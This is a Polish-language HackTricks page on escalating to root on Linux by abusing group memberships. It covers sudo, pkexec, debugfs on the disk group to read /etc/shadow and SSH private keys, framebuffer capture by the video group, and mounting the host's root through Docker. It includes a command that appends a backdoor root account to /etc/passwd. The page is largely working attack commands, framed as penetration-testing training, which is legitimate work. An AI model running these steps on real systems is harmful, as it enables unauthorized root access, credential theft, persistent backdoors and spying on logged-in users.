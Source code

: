 # Interesujące grupy - Eskalacja uprawnień w systemie Linux

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

## Grupy Sudo/Admin

### **PE - Metoda 1**

**Czasami**, **domyślnie (lub dlatego, że niektóre oprogramowanie tego wymaga)** w pliku **/etc/sudoers** można znaleźć niektóre z tych linii:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
To oznacza, że **każdy użytkownik należący do grupy sudo lub admin może wykonywać dowolne polecenia jako sudo**.

Jeśli tak jest, aby **stać się użytkownikiem root, wystarczy wykonać**:
```
sudo su
```
### PE - Metoda 2

Znajdź wszystkie binarne pliki suid i sprawdź, czy istnieje plik binarny **Pkexec**:
```bash
find / -perm -4000 2>/dev/null
```
Jeśli odkryjesz, że binarny plik **pkexec jest binarnym SUID** i należysz do grupy **sudo** lub **admin**, prawdopodobnie będziesz mógł wykonywać binarne pliki jako sudo za pomocą `pkexec`.\
Dzieje się tak, ponieważ zazwyczaj te grupy są uwzględnione w **polityce polkit**, która określa, które grupy mogą korzystać z `pkexec`. Sprawdź to za pomocą:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
Poniżej znajdziesz grupy, które mają uprawnienia do wykonania **pkexec** i które **domyślnie** pojawiają się w niektórych dystrybucjach Linuxa, takich jak grupy **sudo** i **admin**.

Aby **stać się rootem, możesz wykonać**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
Jeśli próbujesz uruchomić **pkexec** i otrzymujesz ten **błąd**:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**To nie dlatego, że nie masz uprawnień, ale dlatego, że nie jesteś połączony bez GUI**. Istnieje jednak sposób na obejście tego problemu tutaj: [https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). Potrzebujesz **2 różnych sesji SSH**:

{% code title="sesja1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% code title="sesja2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

## Grupa Wheel

**Czasami**, **domyślnie** w pliku **/etc/sudoers** można znaleźć tę linię:
```
%wheel	ALL=(ALL:ALL) ALL
```
To oznacza, że **każdy użytkownik należący do grupy wheel może wykonywać dowolne polecenie jako sudo**.

Jeśli tak jest, aby **stać się rootem, wystarczy wykonać**:
```
sudo su
```
## Grupa Shadow

Użytkownicy z grupy **shadow** mogą **odczytywać** plik **/etc/shadow**:
```
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
## Grupa dyskowa

Ten przywilej jest prawie **równoważny dostępowi roota**, ponieważ umożliwia dostęp do wszystkich danych wewnątrz maszyny.

Pliki: `/dev/sd[a-z][1-9]`
```bash
df -h #Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Zauważ, że używając debugfs możesz również **zapisywać pliki**. Na przykład, aby skopiować `/tmp/asd1.txt` do `/tmp/asd2.txt`, możesz wykonać:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
Jednakże, jeśli spróbujesz **zapisać pliki należące do roota** (takie jak `/etc/shadow` lub `/etc/passwd`), otrzymasz błąd "**Permission denied**".

## Grupa Video

Za pomocą polecenia `w` możesz sprawdzić **kto jest zalogowany do systemu** i otrzymasz wynik podobny do poniższego:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
**tty1** oznacza, że użytkownik **yossi jest fizycznie zalogowany** do terminala na maszynie.

Grupa **video** ma dostęp do wyświetlania obrazu z ekranu. W zasadzie można obserwować ekran. Aby to zrobić, musisz **przechwycić bieżący obraz z ekranu** w postaci surowych danych i uzyskać rozdzielczość, jaką ekran używa. Dane ekranu można zapisać w `/dev/fb0`, a rozdzielczość tego ekranu można znaleźć w `/sys/class/graphics/fb0/virtual_size`.
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Aby **otworzyć** **surowy obraz**, można użyć **GIMP**, wybrać plik \*\*`screen.raw` \*\* i wybrać jako typ pliku **Dane surowego obrazu**:

![](<../../../.gitbook/assets/image (287) (1).png>)

Następnie zmodyfikuj szerokość i wysokość na te używane na ekranie oraz sprawdź różne typy obrazów (i wybierz ten, który najlepiej pokazuje ekran):

![](<../../../.gitbook/assets/image (288).png>)

## Grupa Root

Wygląda na to, że domyślnie **członkowie grupy root** mogą mieć dostęp do **modyfikacji** niektórych plików konfiguracyjnych **usług** lub niektórych plików **bibliotek** lub **innych interesujących rzeczy**, które mogą być wykorzystane do eskalacji uprawnień...

**Sprawdź, które pliki mogą być modyfikowane przez członków grupy root**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
## Grupa Docker

Możesz **zamontować system plików root hosta na woluminie instancji**, więc gdy instancja zostanie uruchomiona, natychmiast wczytuje `chroot` do tego woluminu. To efektywnie daje ci uprawnienia root na maszynie.
```bash
docker image #Get images from the docker service

#Get a shell inside a docker container with access as root to the filesystem
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
#If you want full access from the host, create a backdoor in the passwd file
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /etc/passwd

#Ifyou just want filesystem and network access you can startthe following container:
docker run --rm -it --pid=host --net=host --privileged -v /:/mnt <imagename> chroot /mnt bashbash
```
W końcu, jeśli żadne z wcześniejszych sugestii Ci się nie podobają lub nie działają z jakiegoś powodu (firewall api docker?), zawsze możesz spróbować **uruchomić kontener z uprawnieniami roota i uciec z niego**, jak wyjaśniono tutaj:

{% content-ref url="../docker-security/" %}
[docker-security](../docker-security/)
{% endcontent-ref %}

Jeśli masz uprawnienia do zapisu w gnieździe dockera, przeczytaj [**ten post o eskalacji uprawnień poprzez nadużycie gniazda dockera**](../#writable-docker-socket)**.**

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

## Grupa lxc/lxd

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

## Grupa Adm

Zazwyczaj **członkowie** grupy **`adm`** mają uprawnienia do **odczytu plików dziennika** znajdujących się wewnątrz _/var/log/_.\
Dlatego, jeśli skompromitowałeś użytkownika należącego do tej grupy, zdecydowanie powinieneś **sprawdzić dzienniki**.

## Grupa Auth

W systemie OpenBSD grupa **auth** zazwyczaj może zapisywać w folderach _**/etc/skey**_ i _**/var/db/yubikey**_, jeśli są używane.\
Te uprawnienia mogą być nadużyte za pomocą następującego exploitu, aby **przejąć uprawnienia roota**: [https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot](https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
